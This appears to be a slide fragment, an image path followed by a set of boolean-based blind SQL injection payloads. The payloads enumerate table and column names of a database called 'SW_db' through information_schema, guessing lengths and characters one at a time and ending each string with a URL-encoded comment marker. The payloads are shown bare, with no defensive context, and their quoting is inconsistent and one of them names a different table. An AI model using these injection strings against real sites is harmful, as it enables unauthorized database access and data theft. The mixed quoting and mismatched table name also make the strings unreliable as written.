

and length((select table_name from (select table_name from information_schema.tables where table_schema=’SW_db’ and table_type=’base table’ order by table_name limit 1) as vtable order by table_name desc limit 1))=5%23
and substr((select table_name from (select table_name from information_schema.tables where table_schema='SW_db' and table_type='base table' order by table_name limit 1) as vtable order by table_name desc limit 1), 1, 1)=char(0x42)%23
(select table_name from (select table_name from information_schema.tables where table_schema=’SW_db’ and table_type=’base table’ order by table_name limit 1) as vtable order by table_name desc limit 1)=”board”%23

and length((select column_name from (select column_name from information_schema.columns where table_name='board' order by column_name limit 1) as vtable order by column_name desc limit 1))=7%23
and substr((select column_name from (select column_name from information_schema.columns where table_name='greet' order by column_name limit 1) as vtable order by column_name desc limit 1),1,1)=char(0x43)%23
(select column_name from (select column_name from information_schema.columns where table_name='board'\ order by column_name limit 1) as vtable order by column_name desc limit 1)=”content”%23